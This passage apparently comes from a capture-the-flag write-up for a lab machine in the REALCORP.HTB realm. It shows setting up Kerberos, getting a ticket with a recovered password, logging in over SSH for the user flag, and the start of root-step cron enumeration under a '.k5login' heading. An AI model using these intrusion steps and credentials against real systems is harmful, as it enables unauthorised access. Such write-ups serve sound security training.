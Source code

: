 First we install `krb5-user`.

```
$ sudo apt install krb5-user
```

Then we update our krb5.conf to contain the correct realm and kdc address.

`/etc/krb5.conf`
```
[libdefaults]
    default_realm = REALCORP.HTB

[realms]
    REALCORP.HTB = {
    kdc = 10.129.162.100
    }
```

We also make sure our `/etc/hosts` contains this entry for our target ip.

```
10.129.162.100 srv01.realcorp.htb
```

Now we can create the ticket using the password `sJB}RM>6Z~64_`, confirm everything went well, log into the machine as j.nakazawa and grab the user flag.

```
$ kinit j.nakazawa
Password for j.nakazawa@REALCORP.HTB:
$ klist
Ticket cache: FILE:/tmp/krb5cc_1000
Default principal: j.nakazawa@REALCORP.HTB

Valid starting       Expires              Service principal
06/16/2021 06:50:19  06/17/2021 06:50:19  krbtgt/REALCORP.HTB@REALCORP.HTB
$ ssh j.nakazawa@srv01.realcorp.htb
Activate the web console with: systemctl enable --now cockpit.socket

Last login: Wed Jun 16 07:48:48 2021 from 10.10.14.86
[j.nakazawa@srv01 ~]$ wc -c user.txt 
33 user.txt               
```


# Root

## Crontab and .k5login

Enumerating basic things on the machine, we find a cronjob for the admin user, which executes a `log_backup.sh` script. 

```
[j.nakazawa@srv01 ~]$ cat /etc/crontab 
SHELL=/bin/bash
PATH=/sbin:/bin:/usr/sbin:/usr/bin
MAILTO=root

# For details see man 4 crontabs

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
```